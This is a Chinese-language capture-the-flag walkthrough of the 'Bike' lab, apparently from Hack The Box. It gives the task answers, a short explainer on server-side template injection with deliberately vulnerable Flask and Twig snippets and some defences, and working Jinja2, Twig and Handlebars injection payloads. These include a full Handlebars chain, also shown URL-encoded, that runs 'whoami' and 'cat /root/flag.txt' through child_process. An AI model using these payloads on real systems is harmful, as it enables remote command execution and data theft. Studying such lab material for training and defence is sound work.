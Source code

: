 <center>Bike</center>



[toc]







## Bike

> bike







### 1. task

1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.

```shell
22,80
```

2. What software is running the service listening on the http/web port identified in the first question?

```shelll
node.js
```

3. What is the name of the Web Framework according to Wappalyzer?

```shell
Express
```

4. What is the name of the vulnerability we test for by submitting {{7*7}}?

````shell
Server Side Tempulate Injection
````

5. What is the templating engine being used within Node.JS?

```shell
handlebars
```

6. What is the name of the BurpSuite tab used to encode text?

```shell
Decoder
```

7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

```shell
url
```

8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

```shell
require
```

9. What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?

```shell
global
```

10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

```shell
root
```





### 2. SSTI

> SSTI (Server-Side Template Injection) 是一种服务器端模板注入漏洞。

```shell
用户输入被直接注入到模板引擎中
模板被动态渲染
没有适当的输入验证
```

````shell

### 2. 常见的模板引擎

```python
# Jinja2 (Python)
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route('/page')
def page():
    name = request.args.get('name')
    template = f'Hello {name}!'  # 危险！
    return render_template_string(template)
```

```php
// Twig (PHP)
$loader = new \Twig\Loader\ArrayLoader();
$twig = new \Twig\Environment($loader);
echo $twig->render('Hello {{name}}!', ['name' => $_GET['name']]);  // 危险！
```


#### Jinja2 (Python)
```python
# 基本探测
{{ 7*7 }}
{{ config }}
{{ self }}

# 文件读取
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

# 命令执行
{{ ''.__class__.__mro__[2].__subclasses__()[40]('id').read() }}
```

#### Twig (PHP)
```php
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```
````

>  ==防护措施==

````shell

#### 1. 输入验证
```python
def is_safe_input(user_input):
    return all(c.isalnum() or c.isspace() for c in user_input)

@app.route('/safe')
def safe_page():
    name = request.args.get('name')
    if not is_safe_input(name):
        return "Invalid input"
    return render_template('page.html', name=name)
```


#### 2. 使用安全的模板方法
```python
# Flask/Jinja2
from markupsafe import escape

@app.route('/safe')
def safe_page():
    name = escape(request.args.get('name'))
    return render_template('page.html', name=name)
```


#### 3. 禁用危险函数
```python
# Jinja2
from jinja2 import Environment
env = Environment(
    autoescape=True,
    forbidden_tags=['include', 'extends', 'import']
)
```

````









### 3. flag

> 获取flag

```shell
nmap -sV -sC IP
```

![image-20241202104500679](./assets/image-20241202104500679.png)

> wappalyzer 识别

![image-20241202104550013](./assets/image-20241202104550013.png)

**在E-mail输入框输入SSIT探测字符`{{7\*7}}`，页面报错，报错信息显示使用handlebars模版引擎，并且在/root/Backend目录下运行。**

![image-20241202104949721](./assets/image-20241202104949721.png)

> 执行payload.

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

**其中 `execsync('----')` 部分为我们需要更改执行的命令**

```shell
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

>  **对payload进行URL编码：**

```shell
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

**使用burpsuite抓包，更改email参数为URL编码下的payload，命令执行成功**

![image-20241202105910069](./assets/image-20241202105910069.png)

> **执行命令查看root目录 `ls /root/flag.txt`，对payload进行url编码**

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![image-20241202110056645](./assets/image-20241202110056645.png)



